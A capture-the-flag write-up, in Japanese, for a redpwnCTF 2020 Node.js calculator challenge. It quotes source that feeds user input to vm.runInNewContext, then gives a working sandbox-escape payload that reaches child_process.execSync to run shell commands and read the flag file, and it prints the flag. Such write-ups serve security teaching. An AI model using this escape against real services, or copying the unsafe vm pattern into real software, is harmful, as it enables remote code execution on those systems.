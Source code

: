 # # <!--XXXXXXXXXX-->
Who needs regex for sanitization when we have VMs?!?!  
The flag is at /ctf/flag.txt  
nc 2020.redpwnc.tf 31273  
[calculator.js](calculator.js)  

# Solution
ncすると計算機のようだ。  
ソースは以下のようになっている。  
```JavaScript:calculator.js
const vm = require('vm')
const readline = require('readline')

const rl = readline.createInterface({
  input: process.stdin,
  output: process.stdout
})

process.stdout.write('Welcome to my Calculator-as-a-Service (CaaS)!\n')
process.stdout.write('This calculator lets you use the full power of Javascript for\n')
process.stdout.write('your computations! Try `Math.log(Math.expm1(5) + 1)`\n')
process.stdout.write('Type q to exit.\n')
rl.prompt()
rl.addListener('line', (input) => {
  if (input === 'q') {
    process.exit(0)
  } else {
    try {
      const result = vm.runInNewContext(input)
      process.stdout.write(result + '\n')
    } catch {
      process.stdout.write('An error occurred.\n')
    }
    rl.prompt()
  }
})
```
runInNewContextに直接inputが渡っているため、jsでRCEできないか考える。  
以下でRCE(ls -al)が可能となった。  
```JavaScript
const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').execSync('ls -al').toString()
```
問題文の通り/ctf/flag.txtを読む。  
```bash
$ nc 2020.redpwnc.tf 31273
Welcome to my Calculator-as-a-Service (CaaS)!
This calculator lets you use the full power of Javascript for
your computations! Try `Math.log(Math.expm1(5) + 1)`
Type q to exit.
> const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').execSync('cat /ctf/flag.txt').toString()
flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}

> q
```

## flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}